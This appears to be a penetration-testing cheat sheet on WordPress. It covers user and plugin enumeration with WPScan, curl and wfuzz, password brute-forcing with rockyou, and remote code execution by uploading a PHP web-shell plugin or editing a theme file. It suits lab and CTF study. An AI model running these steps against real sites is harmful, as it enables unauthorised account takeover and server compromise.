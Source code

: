 # WordPress

## WordPress CMS

**WordPress** (**WP**, **WordPress.org**) is a [free and open-source](https://en.wikipedia.org/wiki/Free\_and\_open-source\_software) [content management system](https://en.wikipedia.org/wiki/Content\_management\_system) (CMS) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in\_\(computing\)) and a [template system](https://en.wikipedia.org/wiki/Web\_template\_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic\_mailing\_list) and [forums](https://en.wikipedia.org/wiki/Internet\_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning\_management\_system) (LMS) and [online stores](https://en.wikipedia.org/wiki/Shopping\_cart\_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-Usage\_of\_content\_management\_systems\_for\_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive\_display\_systems) (PDS).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## WordPress Locations

These are the most commong wordpress locations:

* /wp-admin
* /directory\_name/wp-admin

## Enumerating WordPress

WordPress Key Points:

* Tools > Site Health > Info > Server
* Tools > Site Health > Info > Database
* Plugins are written in PHP
* Upload Plugins with PHP Reverse Shell

### Nmap

We can nmap nse scripts:

```
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```
wpscan --url http://target
```

Enumerate users:

```
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```
wpscan --url http://target --enumerate p
```

Enumerate credentails with random-user-agent header:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

Enumerate and store the output:

```
wpscan -u http://10.10.10.88/webservices/wp/ --enumerate p,t,u | tee wpscan.log
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following (author=1,author=2, etc):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -> Add New -> Upload Plugin -> Browse -> plugin-shell.zip -> Open -> Install Now ->

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress > Appearance > Theme Editor > Theme Header then insert a webshell.

![Appearance -> Theme Editor -> Twenty Twenty -> Theme Files -> 404.php](../../../.gitbook/assets/wordpress-twenty-twenty-404-php-webshell.png)
